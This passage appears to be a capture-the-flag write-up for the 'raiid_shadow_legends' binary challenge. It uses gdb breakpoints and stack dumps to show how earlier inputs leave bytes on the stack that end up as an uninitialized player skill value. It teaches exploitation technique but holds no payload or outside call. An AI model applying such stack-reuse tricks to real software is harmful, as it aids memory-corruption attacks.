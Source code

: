 ```raiid_shadow_legends.cpp``` and ```raiid_shadow_legends (executable)``` are provided. <br> <br>
We can't manipulate it by overflowing the stack since the inputs are all managed by c++ strings, <br>
but ```player.skill```, along the others variables, is allocated on the stack. <br> <br>

We run ```gdb raiid_shadow_legends``` and give this commands: <br>
```
break *terms_and_conditions+246
break *terms_and_conditions+273
break *play+395
define hook-stop
x/30wx $rsp
end
```

> NOTE: ```continue``` instruction will not be part of this writeup <br> <br>
 
It prompts for the action, and we input ```1``` <br>
We can see that, after the first breakpoint, the stack contains the following values: <br>
```
0x7fffffffdf10: 0xffffdf20      0x00007fff      0x00000000      0x00000000
0x7fffffffdf20: 0x00000000      0x00000000      0xf7f1d97a      0x00007fff
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000000      0x00000000
0x7fffffffdf40: 0xffffdf00      0x00007fff      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x733bfa00      0x8f838232
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x55555856      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
> NOTE: You can see the ```1``` (```0x00000031```) at address ```0x7fffffffdf90```<br> <br>

It prompts for the agreement, and we input ```AAAAAAAA```, which is ```0x41414141 0x41414141```, and never forget ```\x00``` <br>
```
0x7fffffffdf10: 0xffffdf20      0x00007fff      0x00000000      0x00000000
0x7fffffffdf20: 0x41414141      0x41414141      0xf7f1d900      0x00007fff
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000000      0x00000000
0x7fffffffdf40: 0xffffdf00      0x00007fff      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x733bfa00      0x8f838232
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x55555856      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
> NOTE: You can see our input at address ```0x7fffffffdf20``` and ```0x7fffffffdf24``` <br> <br>

In order to proceed further, we must input ```yes```, and so we do. <br>
```
0x7fffffffdf10: 0xffffdf20      0x00007fff      0x00000000      0x00000000
0x7fffffffdf20: 0x00736579      0x41414141      0xf7f1d900      0x00007fff
0x7fffffffdf30: 0xffffdf40      0x00007fff      0x00000000      0x00000000
0x7fffffffdf40: 0xffffdf00      0x00007fff      0x55555140      0x00005555
0x7fffffffdf50: 0x00000000      0x00000000      0x733bfa00      0x8f838232
0x7fffffffdf60: 0x55556082      0x00005555      0x00000000      0x00000000
0x7fffffffdf70: 0xffffdfc0      0x00007fff      0x55555856      0x00005555
0x7fffffffdf80: 0xffffdf90      0x00007fff      0x00000001      0x00000000
0x7fffffffdf90: 0x00000031      0x00000000      0x00000000      0x00000000
```
```yes``` bytes (```\x79\x65\x73\x00```) overridden the first four As. They are reversed because the binary is little endian. <br> <br>

It prompts for the signature, our name and the action, we enter ```BBBB```, ```CCCC```, and ```DDDD``` respectively. <br>
It says  <br>
> Welcome, CCCC. Skill level: 1094795585 <br> <br>

```